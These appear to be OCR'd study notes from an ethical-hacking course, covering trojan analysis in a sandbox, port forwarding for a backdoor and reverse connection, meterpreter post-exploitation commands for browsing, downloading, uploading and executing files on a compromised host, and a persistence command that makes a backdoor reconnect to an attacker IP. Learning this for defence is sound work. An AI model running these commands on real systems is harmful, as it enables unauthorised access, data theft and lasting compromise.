 ## chapter 88

Analysing trojans
- Check properties of the file.
- Is it what it seems to be?
- Run the file in a virtual machine and check resources.
- Use an online Sandbox service.
  <https://wwww.hybrid-analysis.com>

Reverse DNS

## chapter 92

```sh
route -n
```
Router IP forward:
- download backdoor, use portn 80
- reverse connecte, use port 8080
- beef connect, use port 3000

## chapter 95
Post exploitation
meterpreter basics
- >help -shows help.
- >background - backgorunds current session.
- >sessions -l - lists all sessions.
- >sessions -i [session id]- interact with a certain session.
- >sysinfo - displays system info.
- >ipconfig - displays info about interfaces.
- >getuid - shows current user.

```sh
migrate [id]
```

## chapter 96

- >pwd
- >ls
- >cd [location]
- >cat [file] - prints the content of [file] on screen.
- >download [file] - downloads [file].
- >upload [file] - uploads [file].
- >execute -f [file] - executes [file].

## chapter 97

persistence module of meterpreter

```meterpreter
run persistence -h
run persistence -U -i 20 -p 80 -r 10.0.2.4
```
